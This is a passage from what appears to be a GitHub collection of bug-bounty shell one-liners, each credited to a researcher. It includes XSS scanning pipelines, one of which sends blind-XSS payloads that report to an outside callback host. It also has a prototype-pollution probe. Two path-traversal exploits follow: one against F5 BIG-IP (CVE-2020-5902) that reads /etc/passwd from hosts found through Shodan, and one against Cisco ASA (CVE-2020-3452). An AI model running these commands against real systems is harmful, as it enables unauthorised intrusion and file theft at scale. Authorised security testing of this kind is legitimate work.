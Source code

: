 > @cihanmehmet

```shell
gospider -S URLS.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee OUT.txt
```

> @fanimalikhack

```shell
waybackurls HOST | gf xss | sed 's/=.*/=/' | sort -u | tee FILE.txt && cat FILE.txt | dalfox -b YOURS.xss.ht pipe > OUT.txt
```

> @oliverrickfors

```shell
cat HOSTS.txt | getJS | httpx --match-regex "addEventListener\((?:'|\")message(?:'|\")"
```

### Prototype Pollution

[](https://github.com/dwisiswant0/awesome-oneliner-bugbounty#prototype-pollution)

> @R0X4R

```shell
subfinder -d HOST -all -silent | httpx -silent -threads 300 | anew -q FILE.txt && sed 's/$/\/?__proto__[testparam]=exploit\//' FILE.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
```

### CVE-2020-5902

[](https://github.com/dwisiswant0/awesome-oneliner-bugbounty#cve-2020-5902)

> @Madrobot_

```shell
shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done
```

### CVE-2020-3452

[](https://github.com/dwisiswant0/awesome-oneliner-bugbounty#cve-2020-3452)

> @vict0ni

```shell
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < HOSTS.txt
```

### CVE-2022-0378
